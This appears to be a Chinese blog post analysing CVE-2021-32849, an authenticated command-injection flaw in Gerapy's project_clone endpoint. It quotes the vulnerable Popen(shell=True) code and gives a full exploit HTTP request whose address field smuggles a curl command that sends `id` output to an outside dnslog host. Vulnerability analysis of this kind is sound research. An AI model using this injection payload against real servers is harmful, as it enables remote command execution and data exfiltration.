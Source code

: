 ﻿---
title: Gerapy clone 后台远程命令执行漏洞【CVE-2021-32849】
date: 2025-04-14 10:33:52
tags:
- Gerapy clone
- CVE-2021-32849
- 远程命令执行
categories:
  - [漏洞分析]
---
@[TOC](Gerapy clone 后台远程命令执行漏洞【CVE-2021-32849】)

该漏洞的利用需要授权，虽然危害较大，但是感觉还是比较鸡肋的。
项目地址：[Gerapy](https://github.com/Gerapy/Gerapy)
该漏洞出现在项目的`gerapy/server/core/views.py`中的`project_clone`函数中：
<!--more-->
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9eb4aefb4396f43fdf3008db2f01d093.png)
```python
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', cmd)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})

```
注意到第339行使用了Popen函数，搜一下这个函数的作用：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/799f6635745b9e6dfc81b445ddb3b5f2.png)

说白了可以用来执行系统命令，我们来验证一下：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5d258bd7ccdbd60712f869e1848ed6be.png)
成功弹出来了计算器。
所以如果cmd参数可控，那么就可以用来执行系统命令，
cmd的赋值操作：
```python
cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
```
address或者target可控就可以执行命令
address的赋值操作：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/3fc852ebbd311913f9e1987b778fb0d7.png)
观察这一串代码，首先将请求体的数据加载为python字典，然后获取其中address键的值赋值给address，同时还要满足address的值以http开头，否则就直接退出程序了。最后将address拼接.git赋值个address。从这个过程可以看到，address的值是我们完全可控的，也就意味着我们可以用来执行系统命令。
```shell
POST /api/project/clone HTTP/1.1
Host: 
Content-Length: 61
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"address":"http://127.0.0.1;curl `id`.rwbmny.dnslog.cn"}
```
访问的api信息在这儿：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/01e29197029a0735c2b4675d5678692a.png)
不幸的是，这个操作需要认证，看到请求头中的Authorization标头了吗，无语凝噎：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/e8b49ac4d5289c12a97c47bd7c7b0e98.png)
顺着这个思路其实还有一系列的利用链条，有兴趣的可以自行下载源码审计。
